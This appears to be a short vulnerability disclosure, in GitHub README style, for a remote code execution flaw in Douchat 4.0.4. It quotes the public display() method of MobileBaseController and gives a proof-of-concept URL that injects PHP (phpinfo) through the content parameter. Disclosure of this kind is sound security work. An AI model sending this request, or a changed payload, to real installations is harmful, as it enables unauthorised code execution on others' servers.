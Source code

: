 # Douchat4.0.4-RCE

Douchat's MobileBaseController.class.php page can be triggered by any template because the display method is set to public, which can trigger RCE vulnerability.

Core code
```
    public function display($templateFile='',$charset='',$contentType='',$content='',$prefix='') {
        global $_G;
        if (empty($templateFile)) {
            $templateFile = $_G['addon_path'] . 'View/' . CONTROLLER_NAME . '/' . ACTION_NAME . C('TMPL_TEMPLATE_SUFFIX');
        } else {
            $tempArr = explode('/', $templateFile);
            switch (count($tempArr)) {
                case 1:
                    $templateFile = $_G['addon_path'] . 'View/' . CONTROLLER_NAME . '/' . $tempArr[0] . C('TMPL_TEMPLATE_SUFFIX');
                    break;
                case 2:
                    $templateFile = $_G['addon_path'] . 'View/' . CONTROLLER_NAME . '/' . $tempArr[0] . '/' . $tempArr[1] . C('TMPL_TEMPLATE_SUFFIX');
                    break;
                default:
                    break;
            }
        }
        if (!is_file($templateFile)) {
            E('模板不存在:'.$templateFile);
        }
        parent::display($templateFile,$charset,$contentType,$content,$prefix);
    }
```
Direct rendering of content without security detection before parent :: display
POC:
```
index.php?s=/Mp/MobileBase/display&templateFile=././index.php&prefix=&content=<php>phpinfo();</php>
```
![RCE](https://github.com/Cyc1eC/Douchat4.0.4-RCE/blob/master/rce.png)
